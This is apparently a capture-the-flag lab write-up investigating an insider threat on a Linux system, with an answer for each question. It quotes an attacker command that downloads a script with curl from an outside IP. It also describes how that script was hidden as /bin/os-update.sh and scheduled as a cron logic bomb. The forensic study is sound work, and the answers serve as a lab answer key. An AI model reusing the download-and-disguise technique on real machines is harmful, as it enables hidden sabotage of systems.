 # 🐧 Disgruntled: Insider Threat – Linux Forensics Investigation

## 🧠 Scenario

An employee from the IT department of one of our clients, **CyberT**, was recently arrested for running a phishing operation. CyberT has asked us to investigate a Linux system the individual accessed to determine whether any malicious activity occurred prior to their arrest.

This investigation required reviewing log files, shell history, and cron jobs to uncover potential insider threats.

---

## 🔍 Questions & Answers

---

### 1) The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)


>*Explanation:* checked `/var/log/auth.log` for commands involving installation. Since `apt` is usually used with `sudo`, we searched for the term `install` and got our answer

> **Answer:** `/usr/bin/apt install dokuwiki`

---

### 2) What was the present working directory (PWD) when the previous command was run?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)

>*Explanation:* The auth.log entry for the apt install command contains a `PWD` field or present-working-directory

> **Answer:** `/home/cybert`

---

### 3) Which user was created after the package from the previous task was installed?

```bash
cat /var/log/auth.log | grep "adduser"
```
![user added](task2_q1_answer.png)

>*Explanation:* In linux, there is the `adduser` command, grep the command within the same log to get the answer 

> **Answer:** `it-admin`

---

### 4) A user was then later given sudo privileges. When was the sudoers file updated?  
_Format: Month Day HH:MM:SS_

```bash
cat /var/log/auth.log | grep "visudo"
```
![sudo](task2_q2_answer.png)

>*Explanation:* I looked at the hint and it mentions the use of "visudo" which is used to edit the sudoers, grep any commands with "visudo" and the answer is there.

> **Answer:** `Dec 28 06:27:34`

---

### 5) A script file was opened using the "vi" text editor. What is the name of this file?

```bash
cat /var/log/auth.log | grep "vi"
```
![scriptfile](task2_q3_answer.png)

>*Explanation:* I looked for instances of the Vi editor being launched, grep "vi" and we'll get one folder that is just /bin/vi/scriptname.sh

> **Answer:** `bomb.sh`

---

### 6) What is the command used that created the file bomb.sh?

```bash
cat /home/it-admin/.bash_history
```
![command](task3_q1_answer.png)

>*Explanation:* I want to find shell history for the specific user "it-admin" so let's check that users .bash_history

> **Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

---

### 7) The file was renamed and moved to a different directory. What is the full path of this file now?

```bash
cat /home/it-admin/.viminfo
```
![rename](task3_q2_answer.png)

>*Explanation:* I had to use the hint here, "The .viminfo file contains a list of files edited and saved via vi".  So I went to the directory of the it-admin and listed it's contents with ls -a, then used cat .viminfo to get the result

> **Answer:** `/bin/os-update.sh`

---

### 8) When was the file from the previous question last modified?  
_Format: Month Day HH:MM_

```bash
ls -al --full-time /bin/os-update.sh
```
![modified](task3_q3_answer.png)

>*Explanation:* In the same directory use, ls -al --full-time to get the timestamps for modifications.

> **Answer:** `Dec 28 06:29`

---

### 9) What is the name of the file that will get created when the file from the first question executes?

```bash
cat /bin/os-update.sh
```

![newfile](task3_q4_answer.png)

>*Explanation:* Navigate to the directory that the threat actor stored the os-update.sh file in, from here, cat the .sh file to view the code and there is an output .txt file

> **Answer:** `goodbye.txt`

---

### 10) At what time will the malicious file trigger?  
_Format: HH:MM AM/PM_

```bash
cat /etc/crontab
```
![time](task4_q1_answer.png)

>*Explanation:* Crontabs are where scheduled tasks are stored. You can use the hint if needed, the two values shown are a 0 for minutes and an 8 for hours. 

> **Answer:** `08:00 AM`

---



